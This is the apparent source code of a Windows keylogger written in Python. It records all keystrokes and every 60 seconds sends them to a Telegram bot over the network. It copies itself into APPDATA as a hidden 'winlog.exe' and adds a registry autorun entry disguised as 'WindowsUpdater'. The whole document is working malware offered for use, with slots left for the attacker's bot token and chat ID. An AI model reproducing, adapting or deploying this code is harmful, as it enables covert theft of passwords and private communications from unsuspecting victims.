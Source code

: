from pynput import keyboard
import requests
import threading
import os
import shutil
import sys
import winreg
import ctypes

# --- Config ---
bot_token = 'your API'
chat_id = 'YOUR USERID'
interval = 60
filename = "winlog.exe"
log = ""

# --- Send to Telegram ---
def send_log(message):
    url = f"https://api.telegram.org/bot{bot_token}/sendMessage"
    data = {'chat_id': chat_id, 'text': message}
    try:
        requests.post(url, data=data)
    except:
        pass

# --- Key logger ---
def on_press(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == key.space:
            log += ' '
        else:
            log += f' [{key}] '

def report():
    global log
    if log:
        send_log(log)
        log = ""
    timer = threading.Timer(interval, report)
    timer.daemon = True
    timer.start()

# --- Hide file + Auto run ---
def setup():
    hidden_path = os.path.join(os.getenv("APPDATA"), filename)
    if not os.path.exists(hidden_path):
        # Copy to hidden location
        shutil.copy2(sys.executable, hidden_path)

        # Make file hidden
        ctypes.windll.kernel32.SetFileAttributesW(hidden_path, 2)  # 2 = Hidden attribute

        # Add to registry to autorun
        key = winreg.OpenKey(winreg.HKEY_CURRENT_USER,
                             "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
                             0, winreg.KEY_SET_VALUE)
        winreg.SetValueEx(key, "WindowsUpdater", 0, winreg.REG_SZ, hidden_path)
        winreg.CloseKey(key)

        # Run the hidden file, close original
        os.startfile(hidden_path)
        sys.exit()

# --- Start ---
setup()
report()

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
